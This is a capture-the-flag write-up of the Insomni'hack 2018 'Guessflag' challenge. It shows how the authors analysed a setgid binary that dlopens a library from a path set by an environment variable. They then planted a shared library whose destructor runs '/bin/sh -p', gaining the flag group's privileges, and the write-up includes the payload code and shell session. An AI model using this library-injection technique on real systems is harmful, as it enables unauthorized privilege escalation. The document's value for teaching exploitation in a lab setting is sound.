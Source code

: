 # Guessflag

Guessflag was a warmup pwn at **Insomni'hack 2018**. It was a fairly easy challenge, but we struggled a lot on small details.

## The challenge

We were given ssh access to a remote server, and the challenge was in `/home/flag` there.
There we could find a shared lib (`dowin.so`), the main binary (`guessflag`), and a text file (`flag.txt`).

We could see that `guessflag` **was setgid** and that **the owner of both the** `flag.txt` **file and the** `guessflag` **binary was part of the group "flag".**

```bash
user1@insomniak:/home/flag$ ls -al
total 32
drwxr-xr-x  2 root root  4096 Mar 26 13:18 .
drwxr-xr-x 12 root root 4096 Mar 26 12:50 ..
-rwxr-xr-x  1 root root  7512 Mar 26 12:50 dowin.so
-rwxr-sr-x  1 root flag  8520 Mar 26 12:51 guessflag
-rw-r-----  1 root flag   262 Mar 26 13:18 flag.txt
```

With this information, we knew that we'd probably have to exploit the `guessflag` binary to run commands as a member of the "flag" group in order to read `flag.txt`, which most likely contains the flag.

## Analysis

Let's start with some analysis of the binary.

First we look at the output of the `file` command:

```bash
user1@insomniak:/home/flag$ file guessflag                                                                                                                      
guessflag: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```

It tells us that `guessflag` is **compiled as a dynamic binary**, which means that it relies on the `libc` of the remote server for standard functions like `printf` et al.! We could make it use our own standard function using  [LD_PRELOAD trick](https://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/), but from our little experience, we know that **LD_PRELOAD is ignored when the binary is setuid or setgid**, which is the case here.

So let's move on and look at the output of `ltrace`.

```bash
user1@insomniak:/home/flag$ ltrace ./guessflag
puts("Can you guess the flag ?"Can you guess the flag ?)                                                                = 25
+++ exited (status 255) +++
```

Nothing fancy here, let's try with an argument.

```bash
user1@insomniak:/home/flag$ ltrace ./guessflag arg
puts("Can you guess the flag ?"Can you guess the flag ?)                                                                = 25
getenv("CHECK_PATH")                                                                                                    = nil
snprintf("(null)/dowin.so", 1024, "%s/dowin.so", nil)                                                                   = 15
dlopen("(null)/dowin.so", 1)                                                                                            = 0
+++ exited (status 255) +++
```

Uuh! Looks like it **first checks if we passed an argument, and if so, tries to get the content of the environment variable CHECK_PATH**.

Let's try to set this variable :

```bash
user1@insomniak:/home/flag$ CHECK_PATH=test ltrace ./guessflag arg
puts("Can you guess the flag ?"Can you guess the flag ?)                                                                = 25
getenv("CHECK_PATH")                                                                                                    = "test"
snprintf("test/dowin.so", 1024, "%s/dowin.so", "test")                                                                  = 13
dlopen("test/dowin.so", 1)                                                                                              = 0
+++ exited (status 255) +++
```

Alright, so it looks like it **appends the content of CHECK_PATH to the string "/dowin.so" and then tries to use `dlopen` on it**. This means that if we set the CHECK_PATH variable to something like `/tmp/pld` and create our own `dowin.so` in this directory, it will load it !

## Exploit

I had never met the `dlopen` function before, but it's really straightforward.
It simply opens a shared object whose path is passed as a parameter and gives you the ability to execute the functions it provides.

The problem here is that we can not create just any random function and simply load our library, as it would never get called.

We struggled a bit here, and [Geluchat](https://dailysecurity.fr) gave us a neat trick: **it is possible to use the [.fini section](http://l4u-00.jinr.ru/usoft/WWW/www_debian.org/Documentation/elf/node3.html) by creating a destructor in our custom `dowin.so`, and which will execute when the lib is unloaded** (*i.e. when the binary exits, here*).

We ended up with the following payload:

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
	system("id && whoami");
}


```

We set up the exploit in tmp: 

```bash
user1@insomniak:/home/flag$ mkdir /tmp/pld && cd /tmp/pld
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ export CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
uid=1005(user1) gid=985(users) groups=985(users)
user1
```

Yeah nice, our destructor got executed!
But, wait… The permissions were dropped :( WHHHhhyYyyy ?

We struggled for about 2 hours on this, and then asked for a bit of help to a member of Securimag.

He told us that on this machine, /bin/sh was a symlink to /bin/bash, **which drops the setuid and setgid permissions by default when it is called**.

Using `man system`, we can easily figure out that `system()` simply calls `/bin/sh` with the argument it is passed.

He also told us that **the `-p` argument on `/bin/sh` prevents it from dropping the permissions**.

That gave us our second payload: 

```c
void begin (void) __attribute__((destructor));

void begin (void) {
	char *envp[] = { NULL };
	char *argv[] = { "/bin/sh", "-p", NULL };
	execve("/bin/sh", argv, envp);
}
```

We compile and run it…

```
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
user1@insomniak:/tmp/pld$ id
uid=1005(user1) gid=985(users) groups=985(users), 990(flag)
```

Yay! We got a shell in the `flag` group :D

```
user1@insomniak:/tmp/pld$ cat /home/flag/flag.txt
INS{th4t_library_was_usele$$}
```

Aaand… **Flagged!**
